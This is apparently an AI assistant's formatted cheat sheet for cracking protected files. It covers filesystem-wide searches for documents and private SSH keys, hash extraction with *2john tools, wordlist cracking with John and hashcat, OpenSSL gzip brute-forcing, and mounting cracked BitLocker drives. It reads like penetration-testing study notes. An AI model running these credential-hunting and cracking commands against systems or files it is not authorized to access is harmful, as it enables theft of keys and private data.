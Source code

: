 
---

# Cracking Protected Files – 

### 1. Find Encrypted Files (by extensions)

```bash
for ext in $(echo ".xls .xls* .xltx .od* .doc .doc* .pdf .pot .pot* .pp*");do 
  echo -e "\nFile extension: " $ext; 
  find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" 
done
```

_Search for common encrypted file types._

---

### 2. Find SSH Keys (by content)

```bash
grep -rnE '^\-{5}BEGIN [A-Z0-9]+ PRIVATE KEY\-{5}$' /* 2>/dev/null
```

_Look for SSH private keys on the system._

---

### 3. Check if SSH Key is Encrypted

```bash
cat /home/jsmith/.ssh/SSH.private
```

_Look for `Proc-Type: 4,ENCRYPTED` line._

Or:

```bash
ssh-keygen -yf ~/.ssh/id_ed25519
ssh-keygen -yf ~/.ssh/id_rsa
```

_If encrypted, it will ask for passphrase._

---

### 4. Extract Hash from Encrypted SSH Key

```bash
ssh2john.py SSH.private > ssh.hash
john --wordlist=rockyou.txt ssh.hash
john ssh.hash --show
```

_Convert key → hash → crack with John._

---

### 5. Extract Hash from Office Docs

```bash
office2john.py Protected.docx > protected-docx.hash
john --wordlist=rockyou.txt protected-docx.hash
john protected-docx.hash --show
```

_Crack MS Office files._

---

### 6. Extract Hash from PDF

```bash
pdf2john.py PDF.pdf > pdf.hash
john --wordlist=rockyou.txt pdf.hash
john pdf.hash --show
```

_Crack PDFs._

---

### 7. Useful *2john Tools

```bash
locate *2john*
```

_Shows all converters (zip2john, rar2john, gpg2john, etc.)._

---

**Quick Flow:**

1. Find file → 2john script → Hash → Crack with John (wordlist).
    

\
Here’s your simplified **hacker notes** version for **Cracking Protected Archives** – just the commands with short explanations:

---

# Cracking Protected Archives 

### 1. Get List of Archive Extensions

```bash
curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt
```

_Grab all known compressed file extensions._

---

### 2. Crack ZIP Files

```bash
zip2john ZIP.zip > zip.hash
john --wordlist=rockyou.txt zip.hash
john zip.hash --show
```

_Extract hash from ZIP → crack with John._

---

### 3. Crack OpenSSL Encrypted GZIP

```bash
file GZIP.gzip
```

_Check if it’s OpenSSL-encrypted._

```bash
for i in $(cat rockyou.txt);do 
  openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null | tar xz
done
```

_Brute-force with wordlist, successful password extracts file._

---

### 4. Crack BitLocker (Virtual Drives)

```bash
bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash
```

_Extract BitLocker password hash._

```bash
hashcat -a 0 -m 22100 backup.hash /usr/share/wordlists/rockyou.txt
```

_Crack with Hashcat (mode 22100 for BitLocker)._

---

### 5. Mount BitLocker Drive – Windows

- Double-click `.vhd`, enter cracked password.
    

---

### 6. Mount BitLocker Drive – Linux/macOS

```bash
sudo apt-get install dislocker
sudo mkdir -p /media/bitlocker /media/bitlockermount
sudo losetup -f -P Backup.vhd
sudo dislocker /dev/loop0p2 -u1234qwer -- /media/bitlocker
sudo mount -o loop /media/bitlocker/dislocker-file /media/bitlockermount
cd /media/bitlockermount && ls -la
```

_Mount and access cracked BitLocker volume._

Unmount when done:

```bash
sudo umount /media/bitlockermount
sudo umount /media/bitlocker
```

---

**Quick Flow:**

- ZIP → `zip2john` → `john`
    
- GZIP (OpenSSL) → brute-force with `openssl` + wordlist
    
- BitLocker → `bitlocker2john` → `hashcat` (mode 22100) → mount
    

---

Do you want me to merge these with the **Protected Files notes** into a single **cheat sheet table** (File Type → Command to Crack)?